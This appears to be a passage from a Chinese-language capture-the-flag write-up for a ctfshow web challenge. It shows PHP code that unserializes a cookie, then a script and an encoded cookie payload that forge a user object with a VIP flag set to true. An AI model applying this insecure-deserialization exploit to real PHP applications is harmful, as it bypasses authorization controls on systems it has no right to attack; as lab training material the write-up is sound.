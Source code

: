 ```php
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){    //这题没有让 $isVip 置为 true 的代码，需要我们序列化后修改
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    //起点
    if($user->login($username,$password)){
        if($user->checkVip())
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

POP链

```php
<?php
class ctfShowUser
{
    public $username = 'xxxxxx';
    public $password = 'xxxxxx';
    public $isVip = true;
}
echo urlencode(serialize(new ctfShowUser()));
```

GET：

```
?username=xxxxxx&password=xxxxxx
```

COOKIE：

```
user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

## web256
